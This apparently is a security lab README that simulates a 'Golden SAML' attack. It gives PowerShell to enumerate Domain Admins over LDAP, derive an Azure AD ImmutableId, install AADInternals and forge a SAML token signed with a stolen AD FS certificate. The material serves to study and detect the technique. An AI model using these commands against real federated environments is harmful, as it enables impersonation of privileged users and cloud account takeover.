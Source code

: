 # Forge SAML Tokens

If a threat actor gets to [decrypt and export the AD FS token signing certificate](../export-adfs-certificates/README.md), the certificate can be used to sign new SAML tokens and impersonate users in a federated environment. 

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: Domain Controller 
    * Identity:
        * Domain Users
* Domain Controller
    * Services:
      * Active directory domain services
    * Network:
      * Port: 389
* Input:
  * AD FS Token Signing Certificate

## Simulation Steps

### Enumerate Privileged Accounts via Lightweight Directory Access Protocol (LDAP)

Start by identifying privileged accounts that could also have privileged access to resources in the cloud. Usually, environments add their domain admin accounts to the Azure AD built-in  Global Administrator role. Therefore, you can start by enumerating the members of the `Domain Admins` group.

1.  Connect to a domain joined endpoint via the [Azure Bastion service](../../../../environments/_helper-docs/connectAzVmAzBastion.md).
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../../../images/labs/goldemsaml/signSAMLToken/2021-05-19_01_get_domain_admins.png)

### Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

#### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the `immutable ID` of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$Results[1].Samaccountname
$Results[1].ObjectGuid
$ObjectGUID = $Results[1].ObjectGuid
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
$ImmutableId
```

![](../../../../images/labs/goldemsaml/signSAMLToken/2021-05-19_02_get_immutable_id.png)

#### Install AADInternals

2.  On the same PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals -Force 
Import-Module –Name AADInternals
```

#### Sign a New SAML Token

3. Use the [New-AADIntSAMLToken](https://github.com/Gerenios/AADInternals/blob/master/FederatedIdentityTools.ps1#L6) function with the following information to sign a new SAML token:
  * The `ImmutableID` we got in the first section.
  * The path to the token signing certificate file.
  * The AD FS token issuer url.

```PowerShell 
$Cert = 'C:\ProgramData\ADFSSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
$SamlToken
```

![](../../../../images/labs/goldemsaml/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

* SAML Token

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
